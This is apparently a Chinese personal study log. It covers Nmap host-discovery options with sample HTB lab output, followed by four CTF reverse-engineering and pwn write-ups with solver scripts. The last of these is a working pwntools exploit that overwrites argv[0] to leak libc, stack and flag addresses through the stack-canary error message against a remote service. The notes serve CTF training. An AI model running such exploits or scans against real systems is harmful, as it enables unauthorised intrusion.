

# 2024-2-15

## Nmap使用

### 简介

Nmap 提供许多不同类型的扫描，可用于获取有关目标的各种信息。基本上，Nmap可以分为以下几种扫描技术：

- 主机发现
- 端口扫描
- 服务枚举和检测
- 操作系统检测
- 与目标服务进行脚本化交互

Nmap语法如下`nmap <scan types> <options> <target>`

-sS选项通常是进行TCP-SYN扫描， TCP-SYN 扫描会发送一个带有 SYN 标志的数据包。

- 如果我们的目标将`SYN-ACK`带标记的数据包发送回扫描的端口，Nmap 会检测到该端口是`open`。
- 如果数据包收到一个`RST`标志，则表明该端口是`closed`。
- 如果 Nmap 没有收到返回的数据包，它将显示为`filtered`。因为根据防火墙配置，某些数据包可能会被防火墙丢弃或忽略。


如图所示我们可以看见本地网络开启的一个端口和所运行的服务。

### 主机发现

当我们需要对一家公司的整个网络进行内部渗透测试时，我们首先应该了解哪些主机是在线的。为了发现网络上的在线主机，我们可以使用`Nmap`的主机发现选项。例如

`sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5`

| **扫描选项**    | **描述**                             |
| --------------- | ------------------------------------ |
| `10.129.2.0/24` | 目标网络范围                         |
| `-sn`           | 主机扫描/ping发现                    |
| `-oA tnet`      | 以“tnet”格式存储结果。               |
| `grep for`      | 过滤带for的结果                      |
| `cut -d" " -f5` | 以空格为间隔进行分隔，选取第五个字段 |

因为是使用ping发现，所以此扫描方法仅在主机的防火墙允许的情况下才有效。

同时如果提供了需要测试的主机IP列表，我们也可以从列表中读取主机进行扫描。例如从hosts.lst读取

`sudo nmap -sn -oA tnet -iL hosts.lst | grep for | cut -d" " -f5`

| **扫描选项** | **描述**                             |
| ------------ | ------------------------------------ |
| -iL          | 对提供的列表中的目标执行定义好的扫描 |

如果我们只需要扫描网络的一小部分我们可以使用下面两条命令

`sudo nmap -sn -oA tnet 10.129.2.18 10.129.2.19 10.129.2.20| grep for | cut -d" " -f5`

`sudo nmap -sn -oA tnet 10.129.2.18-20| grep for | cut -d" " -f5`

当我们使用ping发现时，我们所使用的应该是ICMP协议，但事实并非如此，我们可以通过下列的指令来进行分析

```shell
Mthg@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host -PE --packet-trace 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 00:08 CEST
SENT (0.0074s) ARP who-has 10.129.2.18 tell 10.10.14.2
RCVD (0.0309s) ARP reply 10.129.2.18 is-at DE:AD:00:00:BE:EF
Nmap scan report for 10.129.2.18
Host is up (0.023s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

使用--packet-trace我们可以观察Nmap的发包记录，发现在 Nmap 发送 ICMP 请求之前，它会发送ARP请求，这样不需要ICMP请求就可确定主机状态。

| **扫描选项**     | **描述**                                  |
| ---------------- | ----------------------------------------- |
| `-PE`            | 通过使用“ICMP 请求”对目标执行 ping 扫描。 |
| `--packet-trace` | 显示所有发送和接收的数据包                |

如果我们想要知道为什么会将主机标记为在线状态我们可以使用`--reason`

```shell
Mthg@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host -PE --reason 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 00:10 CEST
SENT (0.0074s) ARP who-has 10.129.2.18 tell 10.10.14.2
RCVD (0.0309s) ARP reply 10.129.2.18 is-at DE:AD:00:00:BE:EF
Nmap scan report for 10.129.2.18
Host is up, received arp-response (0.028s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```

而如果我们想要使用ICMP请求发送在线主机可以使用 `--disable-arp-ping`

```shell
Mthg@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host -PE --packet-trace --disable-arp-ping 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 00:12 CEST
SENT (0.0107s) ICMP [10.10.14.2 > 10.129.2.18 Echo request (type=8/code=0) id=13607 seq=0] IP [ttl=255 id=23541 iplen=28 ]
RCVD (0.0152s) ICMP [10.129.2.18 > 10.10.14.2 Echo reply (type=0/code=0) id=13607 seq=0] IP [ttl=128 id=40622 iplen=28 ]
Nmap scan report for 10.129.2.18
Host is up (0.086s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

## Re

### 1


该程序会让你输入一个酒的数量，然后依次输入酒的种类并异或，这样得到一个小于0xFFFF的随机种子，并且检验这个种子是否符合下面的条件


然后生成随机数，随机数每次和`LOBYTE(dword_6020C0[i])`异或就是flag

生成的随机数md5加密赋值给v11[i]，`sprintf(&s1[2 * i], "%02x", (unsigned __int8)v11[i]);`v11[i]按照 "%02x"取前16位传到s1[2*i]。最后s1和`5eba99aff105c9ff6a1a913e343fec67` 比较。

所以这是一个看似随机的伪随机程序，随机数的生成是基于我们提供的数字，所以只需要爆破小于0xFFFF的数字即可

```python
from pwn import *
seed = []
for i in range(65536):
    num = 0
    p = i
    while i:
        i &= i - 1
        num += 1
    if num == 10:
        seed.append(p)
for i in seed:
    io = process('./zorropub')
    io.sendlineafter('Straight to the point. How many drinks you want?',b'1')
    io.sendlineafter('OK. I need details of all the drinks. Give me 1 drink ids:',i)
    p = io.recv()
    if b"nullcon"in p:
        print(p)
```

### 2



打开程序可以看见需要我们输入一个字符串然后进入sub_C0100进行处理，然后进入下一个函数执行与0x25异或，得到字符串

在这里把四个字节变成三个字节


并且使用的变换矩阵是典型的base64解码矩阵，所以我们可以看出这是一个base64解码函数。

```python
import  base64
flag = 'you_know_how_to_remove_junk_code'
new_flag = ''
for i in range(len(flag)):
    new_flag += chr(0x25 ^ ord(flag[i]))
print(base64.b64encode(new_flag.encode()))
```

### 3


首先我们进入主函数，会显示让我们输入flag，但之后就没有操作了，可能是反编译有问题我们转换成汇编继续查看。


转换成汇编之后，我们可以看见在主函数汇编之后还有一段函数汇编，我们可以看见在这个函数中存在着输入点，所以我们猜测主函数执行后会继续执行到这里。并且CheckRemoteDebuggerpresent会进行反动态调试检查，所以我们需要进行修改。


将两个跳转点改为相反的操作即可。


接下来我们可以看见他会将输入的字符串长度与0x2E进行比较，从而获得flag的长度

最后我们可以看见他设置循环用al与ds:byte_403114[ecx]比较，我们打开这段内存就可以看见最后的加密结果，而al则是由[ebp+ecx-40]复制，即为栈上ebp-40h后的字符串，而这个字符串又是ebp-70所赋值的


我们修改后动态调试即可在栈中找到密钥，与结果异或即可


### 4


可以看见主函数有canary，，而canary被触发时会输出argv[0]，我们可以通过修改这个参数来输出我们需要的。

这里我们可以看见有三次溢出的机会，我们可以依次溢出libc，栈，然后利用canary相对于栈的偏移进行输入，从而绕过canary

```python
from pwn import *
import sys

io = remote('172.10.0.4',10085)
libc = ELF('./libc-2.23.so')
context(os = 'linux', arch = 'amd64', log_level = 'debug')

stderr = 0x6020E0
payload = b'a'*0x128 + p64(stderr)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
stdree_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(type(stdree_addr),hex(stdree_addr))
libc_base = stdree_addr - libc.sym['_IO_2_1_stderr_']

environ = libc_base + libc.sym['environ']
payload = b'a' * 0x128 + p64(environ)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
stack_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))

flag = stack_addr - 0xf8 -0x80
payload = b'a' * 0x128 + p64(flag)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
io.interactive()
```

